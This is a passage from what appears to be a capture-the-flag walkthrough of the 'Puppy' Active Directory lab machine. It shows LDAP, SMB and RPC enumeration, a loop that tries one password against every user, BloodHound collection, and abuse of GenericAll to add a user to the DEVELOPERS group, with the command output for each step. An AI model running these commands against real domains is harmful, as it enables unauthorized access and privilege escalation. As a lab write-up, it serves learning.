     'sAMAccountName: Incoming Forest Trust Builders',
     'sAMAccountName: Windows Authorization Access Group',
     'sAMAccountName: Terminal Server License Servers',
     'sAMAccountName: Allowed RODC Password Replication Group',
     'sAMAccountName: Denied RODC Password Replication Group',
     'sAMAccountName: Read-only Domain Controllers',
     'sAMAccountName: Enterprise Read-only Domain Controllers',
     'sAMAccountName: Cloneable Domain Controllers',
     'sAMAccountName: Protected Users',
     'sAMAccountName: Key Admins',
     'sAMAccountName: Enterprise Key Admins',
     'sAMAccountName: DnsAdmins',
     'sAMAccountName: DnsUpdateProxy',
     'sAMAccountName: HR',
     'sAMAccountName: SENIOR DEVS',
     'sAMAccountName: Access-Denied Assistance Users',
     'sAMAccountName: DEVELOPERS']
```

This is just more manual enumeration of users to groups.


```python
groupmap = {}
for group in groups:
    groupparsed = group.split(":")[1].strip()
    groupmap[groupparsed] = !ldapsearch -H ldap://puppy.htb -x -w 'KingofAkron2025!' -D 'levi.james@puppy.htb' -b 'dc=puppy,dc=htb' -s sub -x "(&(objectclass=group)(sAMAccountName={groupparsed}))" member | grep member:

pprint(groupmap)
```

    {'Access Control Assistance Operators': [],
     'Access-Denied Assistance Users': [],
     'Account Operators': [],
     'Administrators': ['member: CN=Stephen A. Cooper_adm,OU=PUPPY '
                        'ADMINS,DC=PUPPY,DC=HTB',
                        'member: CN=Domain Admins,CN=Users,DC=PUPPY,DC=HTB',
                        'member: CN=Enterprise Admins,CN=Users,DC=PUPPY,DC=HTB',
                        'member: CN=Administrator,CN=Users,DC=PUPPY,DC=HTB'],
     'Allowed RODC Password Replication Group': [],
     'Backup Operators': [],
     'Cert Publishers': [],
     'Certificate Service DCOM Access': [],
     'Cloneable Domain Controllers': [],
     'Cryptographic Operators': [],
     'DEVELOPERS': ['member: CN=Jamie S. Williams,CN=Users,DC=PUPPY,DC=HTB',
                    'member: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB',
                    'member: CN=Anthony J. Edwards,DC=PUPPY,DC=HTB'],
     'Denied RODC Password Replication Group': ['member: CN=Read-only Domain '
                                                'Controllers,CN=Users,DC=PUPPY,DC=HTB',
                                                'member: CN=Group Policy Creator '
                                                'Owners,CN=Users,DC=PUPPY,DC=HTB',
                                                'member: CN=Domain '
                                                'Admins,CN=Users,DC=PUPPY,DC=HTB',
                                                'member: CN=Cert '
                                                'Publishers,CN=Users,DC=PUPPY,DC=HTB',
                                                'member: CN=Enterprise '
                                                'Admins,CN=Users,DC=PUPPY,DC=HTB',
                                                'member: CN=Schema '
                                                'Admins,CN=Users,DC=PUPPY,DC=HTB',
                                                'member: CN=Domain '
                                                'Controllers,CN=Users,DC=PUPPY,DC=HTB',
                                                'member: '
                                                'CN=krbtgt,CN=Users,DC=PUPPY,DC=HTB'],
     'Distributed COM Users': [],
     'DnsAdmins': [],
     'DnsUpdateProxy': [],
     'Domain Admins': ['member: CN=Administrator,CN=Users,DC=PUPPY,DC=HTB'],
     'Domain Computers': [],
     'Domain Controllers': [],
     'Domain Guests': [],
     'Domain Users': [],
     'Enterprise Admins': ['member: CN=Administrator,CN=Users,DC=PUPPY,DC=HTB'],
     'Enterprise Key Admins': [],
     'Enterprise Read-only Domain Controllers': [],
     'Event Log Readers': [],
     'Group Policy Creator Owners': ['member: '
                                     'CN=Administrator,CN=Users,DC=PUPPY,DC=HTB'],
     'Guests': ['member: CN=Domain Guests,CN=Users,DC=PUPPY,DC=HTB',
                'member: CN=Guest,CN=Users,DC=PUPPY,DC=HTB'],
     'HR': ['member: CN=Levi B. James,OU=MANPOWER,DC=PUPPY,DC=HTB'],
     'Hyper-V Administrators': [],
     'IIS_IUSRS': [],
     'Incoming Forest Trust Builders': [],
     'Key Admins': [],
     'Network Configuration Operators': [],
     'Performance Log Users': [],
     'Performance Monitor Users': [],
     'Pre-Windows 2000 Compatible Access': ['member: '
                                            'CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=PUPPY,DC=HTB'],
     'Print Operators': [],
     'Protected Users': [],
     'RAS and IAS Servers': [],
     'RDS Endpoint Servers': [],
     'RDS Management Servers': [],
     'RDS Remote Access Servers': [],
     'Read-only Domain Controllers': [],
     'Remote Desktop Users': [],
     'Remote Management Users': ['member: CN=Stephen W. Cooper,OU=PUPPY '
                                 'ADMINS,DC=PUPPY,DC=HTB',
                                 'member: CN=Adam D. '
                                 'Silver,CN=Users,DC=PUPPY,DC=HTB'],
     'Replicator': [],
     'SENIOR DEVS': ['member: CN=Anthony J. Edwards,DC=PUPPY,DC=HTB'],
     'Schema Admins': ['member: CN=Administrator,CN=Users,DC=PUPPY,DC=HTB'],
     'Server Operators': [],
     'Storage Replica Administrators': [],
     'Terminal Server License Servers': [],
     'Users': ['member: CN=Domain Users,CN=Users,DC=PUPPY,DC=HTB',
               'member: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=PUPPY,DC=HTB',
               'member: CN=S-1-5-4,CN=ForeignSecurityPrincipals,DC=PUPPY,DC=HTB'],
     'Windows Authorization Access Group': ['member: '
                                            'CN=S-1-5-9,CN=ForeignSecurityPrincipals,DC=PUPPY,DC=HTB'],
     'sAMAccountName': []}


## Deeper dive to AD enumeration
Running into walls, I start getting more enumerations in of the same data presented in slightly different ways. Like a scrabble board shuffle.


```python
!ldapsearch -H ldap://puppy.htb -x -w 'KingofAkron2025!' -D 'levi.james@puppy.htb' -b 'dc=puppy,dc=htb' -s sub -x "(objectclass=user)" sAMAccountName
```
```
    # extended LDIF
    #
    # LDAPv3
    # base <dc=puppy,dc=htb> with scope subtree
    # filter: (objectclass=user)
    # requesting: sAMAccountName 
    #
    
    # Administrator, Users, PUPPY.HTB
    dn: CN=Administrator,CN=Users,DC=PUPPY,DC=HTB
    sAMAccountName: Administrator
    
    # Guest, Users, PUPPY.HTB
    dn: CN=Guest,CN=Users,DC=PUPPY,DC=HTB
    sAMAccountName: Guest
    
    # DC, Domain Controllers, PUPPY.HTB
    dn: CN=DC,OU=Domain Controllers,DC=PUPPY,DC=HTB
    sAMAccountName: DC$
    
    # krbtgt, Users, PUPPY.HTB
    dn: CN=krbtgt,CN=Users,DC=PUPPY,DC=HTB
    sAMAccountName: krbtgt
    
    # Levi B. James, MANPOWER, PUPPY.HTB
    dn: CN=Levi B. James,OU=MANPOWER,DC=PUPPY,DC=HTB
    sAMAccountName: levi.james
    
    # Anthony J. Edwards, PUPPY.HTB
    dn: CN=Anthony J. Edwards,DC=PUPPY,DC=HTB
    sAMAccountName: ant.edwards
    
    # Adam D. Silver, Users, PUPPY.HTB
    dn: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
    sAMAccountName: adam.silver
    
    # Jamie S. Williams, Users, PUPPY.HTB
    dn: CN=Jamie S. Williams,CN=Users,DC=PUPPY,DC=HTB
    sAMAccountName: jamie.williams
    
    # Stephen W. Cooper, PUPPY ADMINS, PUPPY.HTB
    dn: CN=Stephen W. Cooper,OU=PUPPY ADMINS,DC=PUPPY,DC=HTB
    sAMAccountName: steph.cooper
    
    # Stephen A. Cooper_adm, PUPPY ADMINS, PUPPY.HTB
    dn: CN=Stephen A. Cooper_adm,OU=PUPPY ADMINS,DC=PUPPY,DC=HTB
    sAMAccountName: steph.cooper_adm
    
    # search reference
    ref: ldap://ForestDnsZones.PUPPY.HTB/DC=ForestDnsZones,DC=PUPPY,DC=HTB
    
    # search reference
    ref: ldap://DomainDnsZones.PUPPY.HTB/DC=DomainDnsZones,DC=PUPPY,DC=HTB
    
    # search reference
    ref: ldap://PUPPY.HTB/CN=Configuration,DC=PUPPY,DC=HTB
    
    # search result
    search: 2
    result: 0 Success
    
    # numResponses: 14
    # numEntries: 10
    # numReferences: 3
```

Taking this data presented and parsing it into a user list to iterate other enumeration tools to validate access.


```python
users = !ldapsearch -H ldap://puppy.htb -x -w 'KingofAkron2025!' -D 'levi.james@puppy.htb' -b 'dc=puppy,dc=htb' -s sub -x "(objectclass=user)" sAMAccountName | grep sAMAccountName | awk '{print $2}'
pprint(users)
```

    ['requesting:',
     'Administrator',
     'Guest',
     'DC$',
     'krbtgt',
     'levi.james',
     'ant.edwards',
     'adam.silver',
     'jamie.williams',
     'steph.cooper',
     'steph.cooper_adm']


Try our known password against every identified user.


```python
for user in users:
    print(user)
    !smbmap -H $target -u $user -p 'KingofAkron2025!'
```
Only levi with this password was found with these shares, so we can assume that the password doesn't work anywhere else.
```
...                                                                               
    levi.james
    
        ________  ___      ___  _______   ___      ___       __         _______
       /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
      (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
       \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
        __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
       /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
      (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
    -----------------------------------------------------------------------------
    SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                         https://github.com/ShawnDEvans/smbmap
    ...
     [+] IP: 10.129.110.146:445	Name: puppy.htb           	Status: Authenticated
    	Disk                                                  	Permissions	Comment
    	----                                                  	-----------	-------
    	ADMIN$                                            	NO ACCESS	Remote Admin
    	C$                                                	NO ACCESS	Default share
    	DEV                                               	NO ACCESS	DEV-SHARE for PUPPY-DEVS
    	IPC$                                              	READ ONLY	Remote IPC
    	NETLOGON                                          	READ ONLY	Logon server share 
    	SYSVOL                                            	READ ONLY	Logon server share 
    ...                                                                                                                
```


In our ldap users output, we identify some base64 encoded text as a user config. This is a hint that adam.silver is using remote access.


```python
!echo "ICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgUAQaCAFDdHhDZmdQcmVzZW5045S15pSx5oiw44GiGAgBQ3R4Q2ZnRmxhZ3Mx44Cw44Gm44Cy44C5EggBQ3R4U2hhZG9344Cw44Cw44Cw44CwKgIBQ3R4TWluRW5jcnlwdGlvbkxldmVs44Sw" | base64 -d
```

                                                    PCtxCfgPresent㔵攱戰ぢCtxCfgFlags1〰て〲〹CtxShadow〰〰〰〰*CtxMinEncryptionLevel㄰

Digging into other shares with levi to see what's available. These are 0 byte files and GPO specific file shares with no interesting information identified.

```sh
 smbclient -U 'PUPPY\levi.james' --password 'KingofAkron2025!' //puppy.htb/SYSVOL
Can't load /etc/samba/smb.conf - run testparm to debug it
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 20 22:33:44 2025
  ..                                  D        0  Wed Feb 19 03:44:57 2025
  lvRxjnmZBA                          D        0  Thu Mar 20 22:33:44 2025
  PUPPY.HTB                          Dr        0  Wed Feb 19 03:44:57 2025
  UltFsQYRGg.txt                      A        0  Thu Mar 20 22:33:44 2025
get 
                5080575 blocks of size 4096. 1545288 blocks available
smb: \> get UltFsQYRGg.txt
getting file \UltFsQYRGg.txt of size 0 as UltFsQYRGg.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```

Enumerate rpc endpoints available. I don't end up using this, but I bet someone would have been able to use this to make better educated decisions on the tools I ended up using.


```python
!rpcdump.py $target
```
```
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
    
    [*] Retrieving endpoint list from puppy.htb
    Protocol: N/A 
    Provider: N/A 
    UUID    : 51A227AE-825B-41F2-B4A9-1AC9557A1018 v1.0 Ngc Pop Key Service
    Bindings: 
              ncacn_ip_tcp:10.129.110.146[49685]
              ncalrpc:[NETLOGON_LRPC]
              ncacn_np:\\DC[\pipe\53e427926fd6fd6f]
              ncacn_http:10.129.110.146[49670]
              ncalrpc:[NTDS_LPC]
              ncalrpc:[OLE8F41C7A3147C29F76A37B9E239AE]
              ncacn_ip_tcp:10.129.110.146[49667]
              ncacn_ip_tcp:10.129.110.146[49664]
              ncalrpc:[MicrosoftLaps_LRPC_0fb2f016-fe45-4a08-a7f9-a467f5e5fa0b]
              ncalrpc:[samss lpc]
              ncalrpc:[SidKey Local End Point]
              ncalrpc:[protected_storage]
              ncalrpc:[lsasspirpc]
              ncalrpc:[lsapolicylookup]
              ncalrpc:[LSA_EAS_ENDPOINT]
              ncalrpc:[lsacap]
              ncalrpc:[LSARPC_ENDPOINT]
              ncalrpc:[securityevent]
              ncalrpc:[audit]
              ncacn_np:\\DC[\pipe\lsass]
    
...<snip>...
    
    Protocol: [MS-TSCH]: Task Scheduler Service Remoting Protocol 
    Provider: taskcomp.dll 
    UUID    : 378E52B0-C0A9-11CF-822D-00AA0051E40F v1.0 
    Bindings: 
              ncalrpc:[OLE3A8BD935F5FEFB2A2E9B6D41E791]
              ncalrpc:[IUserProfile2]
              ncalrpc:[senssvc]
              ncacn_np:\\DC[\PIPE\atsvc]
    
    [*] Received 580 endpoints.
```

Running out of ideas, do a udp scan. Turned up NTP on here which hints there may be some kerberos shenanigans required (there weren't this time.)

```sh
 sudo nmap puppy.htb -Pn -sU -sV -sC --top-ports=40 -vvv
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-17 13:25 PDT
NSE: Loaded 157 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 13:25
Completed NSE at 13:25, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 13:25
Completed NSE at 13:25, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 13:25
Completed NSE at 13:25, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 13:25
Completed Parallel DNS resolution of 1 host. at 13:25, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 1, OK: 0, NX: 0, DR: 1, SF: 3, TR: 3, CN: 0]
Initiating UDP Scan at 13:25
Scanning puppy.htb (10.129.110.146) [40 ports]
Discovered open port 2049/udp on 10.129.110.146
Discovered open port 111/udp on 10.129.110.146
Discovered open port 53/udp on 10.129.110.146
Discovered open port 123/udp on 10.129.110.146
Completed UDP Scan at 13:25, 2.56s elapsed (40 total ports)
Initiating Service scan at 13:25
Scanning 39 services on puppy.htb (10.129.110.146)
Service scan Timing: About 10.00% done; ETC: 13:41 (0:14:33 remaining)
```

Finally remembered the enum4linux-ng existed. This is a much better tool than its predecessor in its capability and verbosity of output.


```python
!enum4linux-ng -As puppy.htb -w puppy -u levi.james -p 'KingofAkron2025!' -oJ scan
```
```
    ENUM4LINUX - next generation (v1.3.4)
    
     ==========================
    |    Target Information    |
     ==========================
    [*] Target ........... puppy.htb
    [*] Username ......... 'levi.james'
    [*] Random Username .. 'kjyydpiw'
    [*] Password ......... 'KingofAkron2025!'
    [*] Timeout .......... 5 second(s)
    
     ==================================
    |    Listener Scan on puppy.htb    |
     ==================================
    [*] Checking LDAP
    [+] LDAP is accessible on 389/tcp
    [*] Checking LDAPS
    [+] LDAPS is accessible on 636/tcp
    [*] Checking SMB
    [+] SMB is accessible on 445/tcp
    [*] Checking SMB over NetBIOS
    [+] SMB over NetBIOS is accessible on 139/tcp
    
     =================================================
    |    Domain Information via LDAP for puppy.htb    |
     =================================================
    [*] Trying LDAP
    [+] Appears to be root/parent DC
    [+] Long domain name is: PUPPY.HTB
    
     ======================================
    |    SMB Dialect Check on puppy.htb    |
     ======================================
    [*] Trying on 445/tcp
    [+] Supported dialects and settings:
    Supported dialects:
      SMB 1.0: false
      SMB 2.02: true
      SMB 2.1: true
      SMB 3.0: true
      SMB 3.1.1: true
    Preferred dialect: SMB 3.0
    SMB1 only: false
    SMB signing required: true
    
     ========================================================
    |    Domain Information via SMB session for puppy.htb    |
     ========================================================
    [*] Enumerating via unauthenticated SMB session on 445/tcp
    [+] Found domain information via SMB
    NetBIOS computer name: DC
    NetBIOS domain name: PUPPY
    DNS domain: PUPPY.HTB
    FQDN: DC.PUPPY.HTB
    Derived membership: domain member
    Derived domain: PUPPY
    
     ======================================
    |    RPC Session Check on puppy.htb    |
     ======================================
    [*] Check for null session
    [+] Server allows session using username '', password ''
    [*] Check for user session
    [+] Server allows session using username 'levi.james', password 'KingofAkron2025!'
    [*] Check for random user
    [-] Could not establish random user session: STATUS_LOGON_FAILURE
    
     ================================================
    |    Domain Information via RPC for puppy.htb    |
     ================================================
    [+] Domain: PUPPY
    [+] Domain SID: S-1-5-21-1487982659-1829050783-2281216199
    [+] Membership: domain member
    
     ============================================
    |    OS Information via RPC for puppy.htb    |
     ============================================
    [*] Enumerating via unauthenticated SMB session on 445/tcp
    [+] Found OS information via SMB
    [*] Enumerating via 'srvinfo'
    [+] Found OS information via 'srvinfo'
    [+] After merging OS information we have the following result:
    OS: Windows 10, Windows Server 2019, Windows Server 2016
    OS version: '10.0'
    OS release: ''
    OS build: '20348'
    Native OS: not supported
    Native LAN manager: not supported
    Platform id: '500'
    Server type: '0x80102b'
    Server type string: Wk Sv PDC Tim NT
    
     ==================================
    |    Users via RPC on puppy.htb    |
     ==================================
    [*] Enumerating users via 'querydispinfo'
    [+] Found 9 user(s) via 'querydispinfo'
    [*] Enumerating users via 'enumdomusers'
    [+] Found 9 user(s) via 'enumdomusers'
    [+] After merging user results we have 9 user(s) total:
    '1103':
      username: levi.james
      name: Levi B. James
      acb: '0x00000210'
      description: (null)
    '1104':
      username: ant.edwards
      name: Anthony J. Edwards
      acb: '0x00000210'
      description: (null)
    '1105':
      username: adam.silver
      name: Adam D. Silver
      acb: '0x00000211'
      description: (null)
    '1106':
      username: jamie.williams
      name: Jamie S. Williams
      acb: '0x00000210'
      description: (null)
    '1107':
      username: steph.cooper
      name: Stephen W. Cooper
      acb: '0x00000210'
      description: (null)
    '1111':
      username: steph.cooper_adm
      name: Stephen A. Cooper
      acb: '0x00000210'
      description: (null)
    '500':
      username: Administrator
      name: (null)
      acb: '0x00004210'
      description: Built-in account for administering the computer/domain
    '501':
      username: Guest
      name: (null)
      acb: '0x00000215'
      description: Built-in account for guest access to the computer/domain
    '502':
      username: krbtgt
      name: (null)
      acb: '0x00020011'
      description: Key Distribution Center Service Account
    
     ===================================
    |    Groups via RPC on puppy.htb    |
     ===================================
    [*] Enumerating local groups
    [+] Found 6 group(s) via 'enumalsgroups domain'
    [*] Enumerating builtin groups
    [+] Found 28 group(s) via 'enumalsgroups builtin'
    [*] Enumerating domain groups
    [+] Found 18 group(s) via 'enumdomgroups'
    [+] After merging groups results we have 52 group(s) total:
    '1101':
      groupname: DnsAdmins
      type: local
    '1102':
      groupname: DnsUpdateProxy
      type: domain
    '1108':
      groupname: HR
      type: domain
    '1109':
      groupname: SENIOR DEVS
      type: domain
    '1112':
      groupname: Access-Denied Assistance Users
      type: local
    '1113':
      groupname: DEVELOPERS
      type: domain
    '498':
      groupname: Enterprise Read-only Domain Controllers
      type: domain
    '512':
      groupname: Domain Admins
      type: domain
    '513':
      groupname: Domain Users
      type: domain
    '514':
      groupname: Domain Guests
      type: domain
    '515':
      groupname: Domain Computers
      type: domain
    '516':
      groupname: Domain Controllers
      type: domain
    '517':
      groupname: Cert Publishers
      type: local
    '518':
      groupname: Schema Admins
      type: domain
    '519':
      groupname: Enterprise Admins
      type: domain
    '520':
      groupname: Group Policy Creator Owners
      type: domain
    '521':
      groupname: Read-only Domain Controllers
      type: domain
    '522':
      groupname: Cloneable Domain Controllers
      type: domain
    '525':
      groupname: Protected Users
      type: domain
    '526':
      groupname: Key Admins
      type: domain
    '527':
      groupname: Enterprise Key Admins
      type: domain
    '544':
      groupname: Administrators
      type: builtin
    '545':
      groupname: Users
      type: builtin
    '546':
      groupname: Guests
      type: builtin
    '548':
      groupname: Account Operators
      type: builtin
    '549':
      groupname: Server Operators
      type: builtin
    '550':
      groupname: Print Operators
      type: builtin
    '551':
      groupname: Backup Operators
      type: builtin
    '552':
      groupname: Replicator
      type: builtin
    '553':
      groupname: RAS and IAS Servers
      type: local
    '554':
      groupname: Pre-Windows 2000 Compatible Access
      type: builtin
    '555':
      groupname: Remote Desktop Users
      type: builtin
    '556':
      groupname: Network Configuration Operators
      type: builtin
    '557':
      groupname: Incoming Forest Trust Builders
      type: builtin
    '558':
      groupname: Performance Monitor Users
      type: builtin
    '559':
      groupname: Performance Log Users
      type: builtin
    '560':
      groupname: Windows Authorization Access Group
      type: builtin
    '561':
      groupname: Terminal Server License Servers
      type: builtin
    '562':
      groupname: Distributed COM Users
      type: builtin
    '568':
      groupname: IIS_IUSRS
      type: builtin
    '569':
      groupname: Cryptographic Operators
      type: builtin
    '571':
      groupname: Allowed RODC Password Replication Group
      type: local
    '572':
      groupname: Denied RODC Password Replication Group
      type: local
    '573':
      groupname: Event Log Readers
      type: builtin
    '574':
      groupname: Certificate Service DCOM Access
      type: builtin
    '575':
      groupname: RDS Remote Access Servers
      type: builtin
    '576':
      groupname: RDS Endpoint Servers
      type: builtin
    '577':
      groupname: RDS Management Servers
      type: builtin
    '578':
      groupname: Hyper-V Administrators
      type: builtin
    '579':
      groupname: Access Control Assistance Operators
      type: builtin
    '580':
      groupname: Remote Management Users
      type: builtin
    '582':
      groupname: Storage Replica Administrators
      type: builtin
    
     ===================================
    |    Shares via RPC on puppy.htb    |
     ===================================
    [*] Enumerating shares
    [+] Found 6 share(s):
    ADMIN$:
      comment: Remote Admin
      type: Disk
    C$:
      comment: Default share
      type: Disk
    DEV:
      comment: DEV-SHARE for PUPPY-DEVS
      type: Disk
    IPC$:
      comment: Remote IPC
      type: IPC
    NETLOGON:
      comment: Logon server share
      type: Disk
    SYSVOL:
      comment: Logon server share
      type: Disk
    [*] Testing share ADMIN$
    [+] Mapping: DENIED, Listing: N/A
    [*] Testing share C$
    [+] Mapping: DENIED, Listing: N/A
    [*] Testing share DEV
    [+] Mapping: OK, Listing: DENIED
    [*] Testing share IPC$
    [+] Mapping: OK, Listing: NOT SUPPORTED
    [*] Testing share NETLOGON
    [+] Mapping: OK, Listing: OK
    [*] Testing share SYSVOL
    [+] Mapping: OK, Listing: OK
    
     ======================================
    |    Policies via RPC for puppy.htb    |
     ======================================
    [*] Trying port 445/tcp
    [+] Found policy:
    Domain password information:
      Password history length: 24
      Minimum password length: 7
      Maximum password age: 41 days 23 hours 53 minutes
      Password properties:
      - DOMAIN_PASSWORD_COMPLEX: true
      - DOMAIN_PASSWORD_NO_ANON_CHANGE: false
      - DOMAIN_PASSWORD_NO_CLEAR_CHANGE: false
      - DOMAIN_PASSWORD_LOCKOUT_ADMINS: false
      - DOMAIN_PASSWORD_PASSWORD_STORE_CLEARTEXT: false
      - DOMAIN_PASSWORD_REFUSE_PASSWORD_CHANGE: false
    Domain lockout information:
      Lockout observation window: 30 minutes
      Lockout duration: 30 minutes
      Lockout threshold: None
    Domain logoff information:
      Force logoff time: not set
    
     ======================================
    |    Printers via RPC for puppy.htb    |
     ======================================
    [+] No printers available
    
    Completed after 32.16 seconds
```

Forgot what all the ports were, concatenated and reran nmap to get a list of named services.


```python
ports = [53,88,111,135,139,389,445,464,593,636,2049,3260,3268,3269,5985,9389,49667,49669,49670,49664,49685,49703,49715]
stringports = ",".join([str(x) for x in ports])

!nmap -Pn -p $stringports $target

```

    Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-17 13:59 PDT
    Nmap scan report for puppy.htb (10.129.110.146)
    Host is up (0.12s latency).
    
    PORT      STATE SERVICE
    53/tcp    open  domain
    88/tcp    open  kerberos-sec
    111/tcp   open  rpcbind
    135/tcp   open  msrpc
    139/tcp   open  netbios-ssn
    389/tcp   open  ldap
    445/tcp   open  microsoft-ds
    464/tcp   open  kpasswd5
    593/tcp   open  http-rpc-epmap
    636/tcp   open  ldapssl
    2049/tcp  open  nfs
    3260/tcp  open  iscsi
    3268/tcp  open  globalcatLDAP
    3269/tcp  open  globalcatLDAPssl
    5985/tcp  open  wsman
    9389/tcp  open  adws
    49664/tcp open  unknown
    49667/tcp open  unknown
    49669/tcp open  unknown
    49670/tcp open  unknown
    49685/tcp open  unknown
    49703/tcp open  unknown
    49715/tcp open  unknown
    
    Nmap done: 1 IP address (1 host up) scanned in 0.26 seconds
```

Finally set up bloodhound via compose, this will let me see relationships between objects in the AD

## BloodHound


```python
!bloodhound-python -dc dc.puppy.htb -u "levi.james" -p 'KingofAkron2025!' -d puppy.htb -c All
```
```
    INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
    WARNING: Could not find a global catalog server, assuming the primary DC has this role
    If this gives errors, either specify a hostname with -gc or disable gc resolution with --disable-autogc
    INFO: Getting TGT for user
    WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
    INFO: Connecting to LDAP server: dc.puppy.htb
    INFO: Found 1 domains
    INFO: Found 1 domains in the forest
    INFO: Found 1 computers
    INFO: Connecting to LDAP server: dc.puppy.htb
    INFO: Found 10 users
    INFO: Found 56 groups
    INFO: Found 3 gpos
    INFO: Found 3 ous
    INFO: Found 19 containers
    INFO: Found 0 trusts
    INFO: Starting computer enumeration with 10 workers
    INFO: Querying computer: DC.PUPPY.HTB
    INFO: Done in 00M 20S
```

Clicking around blindly, we can see there's a relationship where levi.james has write access to the developers group. We know also that there was a "dev-share" smb file share as well and this may give us some access to that, so it's worth spending some time here.  


# Exploit GenericAll for Developers group

Note that this command output shows member_in_group because I already ran the command before gathering this note.


```python
!net rpc group addmem "DEVELOPERS" levi.james -U "puppy\levi.james%KingofAkron2025!" -S puppy.htb
```

    Can't load /etc/samba/smb.conf - run testparm to debug it


    Could not add levi.james to DEVELOPERS: NT_STATUS_MEMBER_IN_GROUP


To prove that the user is now part of developers:


```python
!net rpc group members "DEVELOPERS" -U "puppy\levi.james%KingofAkron2025!" -S puppy.htb
```

    Can't load /etc/samba/smb.conf - run testparm to debug it
    PUPPY\levi.james
    PUPPY\ant.edwards
    PUPPY\adam.silver
    PUPPY\jamie.williams


Enumerating the share again with our levi user we can see we now have access to this share.


```python
!smbmap -H $target -u 'levi.james' -p 'KingofAkron2025!' 
```
```
...                                                                                             
    [+] IP: 10.129.110.146:445	Name: puppy.htb           	Status: Authenticated
    	Disk                                                  	Permissions	Comment
    	----                                                  	-----------	-------
    	ADMIN$                                            	NO ACCESS	Remote Admin
    	C$                                                	NO ACCESS	Default share
    	DEV                                               	READ ONLY	DEV-SHARE for PUPPY-DEVS
    	IPC$                                              	READ ONLY	Remote IPC
    	NETLOGON                                          	READ ONLY	Logon server share 
    	SYSVOL                                            	READ ONLY	Logon server share 
...                                                                                                                                                                                                     
```

For kicks and giggles lets also make sure we finish the enumeration of this new permission.


```python
!enum4linux-ng -As puppy.htb -w puppy -u 'levi.james' -p 'KingofAkron2025!' -oJ scan
```
```
    ENUM4LINUX - next generation (v1.3.4)
    
     ==========================
    |    Target Information    |
     ==========================
    [*] Target ........... puppy.htb
    [*] Username ......... 'levi.james'
    [*] Random Username .. 'rojykacg'
    [*] Password ......... 'KingofAkron2025!'
    [*] Timeout .......... 5 second(s)
    
     ==================================
    |    Listener Scan on puppy.htb    |
     ==================================
    [*] Checking LDAP
    [+] LDAP is accessible on 389/tcp
    [*] Checking LDAPS
    [+] LDAPS is accessible on 636/tcp
    [*] Checking SMB
    [+] SMB is accessible on 445/tcp
    [*] Checking SMB over NetBIOS
    [+] SMB over NetBIOS is accessible on 139/tcp
    
     =================================================
    |    Domain Information via LDAP for puppy.htb    |
     =================================================
    [*] Trying LDAP
    [+] Appears to be root/parent DC
    [+] Long domain name is: PUPPY.HTB
    
     ======================================
    |    SMB Dialect Check on puppy.htb    |
     ======================================
    [*] Trying on 445/tcp
    [+] Supported dialects and settings:
    Supported dialects:
      SMB 1.0: false
      SMB 2.02: true
      SMB 2.1: true
      SMB 3.0: true
      SMB 3.1.1: true
    Preferred dialect: SMB 3.0
    SMB1 only: false
    SMB signing required: true
    
     ========================================================
    |    Domain Information via SMB session for puppy.htb    |
     ========================================================
    [*] Enumerating via unauthenticated SMB session on 445/tcp
    [+] Found domain information via SMB
    NetBIOS computer name: DC
    NetBIOS domain name: PUPPY
    DNS domain: PUPPY.HTB
    FQDN: DC.PUPPY.HTB
    Derived membership: domain member
    Derived domain: PUPPY
    
     ======================================
    |    RPC Session Check on puppy.htb    |
     ======================================
    [*] Check for null session
    [+] Server allows session using username '', password ''
    [*] Check for user session
    [+] Server allows session using username 'levi.james', password 'KingofAkron2025!'
    [*] Check for random user
    [-] Could not establish random user session: STATUS_LOGON_FAILURE
    
     ================================================
    |    Domain Information via RPC for puppy.htb    |
     ================================================
    [+] Domain: PUPPY
    [+] Domain SID: S-1-5-21-1487982659-1829050783-2281216199
    [+] Membership: domain member
    
     ============================================
    |    OS Information via RPC for puppy.htb    |
     ============================================
    [*] Enumerating via unauthenticated SMB session on 445/tcp
    [+] Found OS information via SMB
    [*] Enumerating via 'srvinfo'
    [+] Found OS information via 'srvinfo'
    [+] After merging OS information we have the following result:
    OS: Windows 10, Windows Server 2019, Windows Server 2016
    OS version: '10.0'
    OS release: ''
    OS build: '20348'
    Native OS: not supported
    Native LAN manager: not supported
    Platform id: '500'
    Server type: '0x80102b'
    Server type string: Wk Sv PDC Tim NT
    
     ==================================
    |    Users via RPC on puppy.htb    |
     ==================================
    [*] Enumerating users via 'querydispinfo'
    [+] Found 9 user(s) via 'querydispinfo'
    [*] Enumerating users via 'enumdomusers'
    [+] Found 9 user(s) via 'enumdomusers'
    [+] After merging user results we have 9 user(s) total:
    '1103':
      username: levi.james
      name: Levi B. James
      acb: '0x00000210'
      description: (null)
    '1104':
      username: ant.edwards
      name: Anthony J. Edwards
      acb: '0x00000210'
      description: (null)
    '1105':
      username: adam.silver
      name: Adam D. Silver
      acb: '0x00000211'
      description: (null)
    '1106':
      username: jamie.williams
